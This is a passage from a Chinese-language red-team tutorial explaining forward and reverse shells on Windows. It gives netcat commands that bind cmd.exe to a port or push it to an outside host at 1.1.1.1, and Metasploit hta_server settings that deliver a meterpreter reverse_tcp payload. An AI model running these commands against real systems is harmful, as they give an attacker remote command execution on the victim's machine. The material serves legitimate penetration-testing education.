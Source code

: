 反弹 Shell（Reverse Shell）分正向和反向，正向是目标机器开放入口等待主动连接，我们连接成功后拿到 Shell，如 Web Shell。一旦涉及到弹系统 Shell 则较麻烦，目标防火墙入站不接受日常服务——SSH、HTTP、HTTPS 以外规则访问，导致无法连接成功。

```plaintext
Client -> Firewalld -> Server
```

反向则是目标机器将自己 Shell 交出来主动连接我们服务器。只要目标机器能够外连互联网机器即可，这种情况避免了入站流量被阻断的情况，一般来说出站流量不会收到限制。

```plaintext
Server -> Firewalld -> Client
```

### 2.1 Windows

#### 2.1.1 Netcat⚒️

正向连接

服务端监听。将 cmd 重定向到 6666 端口。

```plaintext
nc -lvp 6666 -e cmd.exe
```

客户端连接。

```plaintext
nc 1.1.1.1 6666
```

反向连接。

服务端主动连接客户端。主动将 cmd.exe 传递到 1.1.1.1 7777 端口

```plaintext
nc -e cmd.exe 1.1.1.1 7777
```

客户端等待连接

```plaintext
nc -lvp 7777
```

#### 2.1.2 HTA

相关原理见 [Red Team: Infrastructure - HTML Application（HTA）](https://www.raingray.com/archives/4385.html#HTML+Application%EF%BC%88HTA%EF%BC%89)

1.MSF 托管 hta 服务。

msf 开启 Web 服务，在里面存放应用，将自动给出 URL 链接。

```plaintext
use exploit/windows/misc/hta_server
set srvhost <Host>
set payload windows/x64/meterpreter/reverse_tcp 
set target 1  // 设置目标系统类型为 x64，0 是 x86
exploit -j
```
